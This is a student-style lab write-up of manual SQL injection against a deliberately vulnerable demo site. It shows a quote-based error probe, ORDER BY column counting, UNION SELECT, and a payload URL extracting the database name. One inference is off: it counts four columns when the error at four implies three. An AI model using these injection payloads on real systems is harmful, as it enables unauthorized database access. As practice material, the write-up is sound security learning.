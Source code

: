 # First Injection and Exploring

To start, the lab's first step is to analyze what happens if you tried an injection like this.
```
http://testphp.vulnweb.com/artists.php?artist=1
```
So before I did the injection, I looked over what information is publicly out in the site just so I can tell any differences after injecting. <br />

So then first tried the commands on the second link from my resources.<br />
I added a ‘ <br />

Result: 
![image](https://github.com/user-attachments/assets/ab533ff6-7043-4fb4-9a2e-8a18aee6ef13)

Then I did: 
```
ORDER BY 1.
```
I did notice that the space in the URL translates to %20 but the site just went back to normal. <br />
![image](https://github.com/user-attachments/assets/96dd693d-4e1f-4868-bb68-4db854ee4c30)  <br />


removing the space result to an error again.<br />
![image](https://github.com/user-attachments/assets/c61e8fc5-c1f2-4926-bbbb-0cd2cf0ab335) <br />


kept doing ORDER BY, ‘til it errored on 4. So there’s only 4 columns on this table, the artists table.<br />
![image](https://github.com/user-attachments/assets/89245b7d-3fa1-4791-9e49-f8fd5743a812)

Then did <br />
```
union select 1,2,3
```
Which nothing showed up.<br />
![image](https://github.com/user-attachments/assets/34a255aa-c42f-4d73-aeb9-16bf52baf154)<br />

I changed artist=1 to a -1. <br />
This time it showed some numbers. It could mean two artists in a table or it’s the second field name. <br />
I am unsure yet. I moved on to the next steps.<br />
![image](https://github.com/user-attachments/assets/df809abf-ac27-476e-9d6b-79e67d2258d3)<br />

Getting the database name. 
```
http://testphp.vulnweb.com/artists.php?artist=-1%20union%20select%201,database(),3
```
![image](https://github.com/user-attachments/assets/099f5e37-97b0-48ca-ad27-4377dcb009ab)








